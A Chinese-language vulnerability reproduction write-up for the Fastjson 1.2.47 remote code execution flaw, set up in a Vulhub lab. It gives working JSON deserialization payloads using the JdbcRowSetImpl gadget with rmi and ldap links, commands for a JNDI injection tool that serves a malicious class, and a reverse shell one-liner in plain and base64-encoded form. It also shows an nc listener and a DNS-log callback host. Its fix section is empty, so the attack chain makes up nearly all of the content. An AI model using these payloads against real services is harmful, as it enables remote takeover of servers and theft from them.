# Fastjson_1.2.47_rce

| 说明     | 内容                         |
| -------- | ---------------------------- |
| 漏洞编号 |                              |
| 漏洞名称 | Fastjson_1.2.47_远程执行漏洞 |
| 漏洞评级 |                              |
| 影响范围 |                              |
| 漏洞描述 |                              |
| 修复方案 |                              |


### 1.1、漏洞描述

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令

### 1.2、漏洞等级

高危

### 1.3、影响版本

1.2.47

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/fastjson/1.2.47-rce

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8090/`即可看到一个json对象被返回



将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析

发送测试数据：

```json
{"name":"hello", "age":20}
```




#### 2、漏洞检测

使用`BurpSuite`扩展插件[FastjsonScan](https://github.com/Maskhe/FastjsonScan)进行漏洞检测



POC：

```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://s0tgwxk05ll1qvmz0lwr27u0prvhj6.oastify.com/aaa",
        "autoCommit":true
    }
}
```

使用[dnslog](http://dnslog.cn/)测试





#### 3、漏洞验证

利用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)工具开启`RMI`服务器


在`/tmp`目录下创建`hello`文件

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit/target]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/demo" -A "192.168.80.141"
[ADDRESS] >> 192.168.80.141
[COMMAND] >> touch /tmp/demo
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/fuk3fq
ldap://192.168.80.141:1389/fuk3fq
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/slgipa
ldap://192.168.80.141:1389/slgipa
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/zsjp7n

----------------------------Server Log----------------------------
2023-09-08 03:53:56 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 03:53:56 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 03:53:57 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```



发送POC到FastJson服务器，通过RMI协议远程加载恶意类

```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.80.141:1099/slgipa",
        "autoCommit":true
    }
}
```



验证：



### 1.5、深度利用

#### 1、反弹Shell

构造反弹shell，进行base64编码

```bash
bash -i >& /dev/tcp/192.168.80.141/1234 0>&1
```




```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```

监听`1234`端口

```bash
nc -lvp 1234
```

开启RMI服务

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit/target]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.80.141"
[ADDRESS] >> 192.168.80.141
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/fd5cfs
ldap://192.168.80.141:1389/fd5cfs
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/flbdik
ldap://192.168.80.141:1389/flbdik
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/m8yxp6

----------------------------Server Log----------------------------
2023-09-08 04:02:36 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 04:02:36 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 04:02:36 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```



POC:
```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.80.141:1389/fd5cfs",
        "autoCommit":true
    }
}
```



获得Shell




### 1.6、修复建议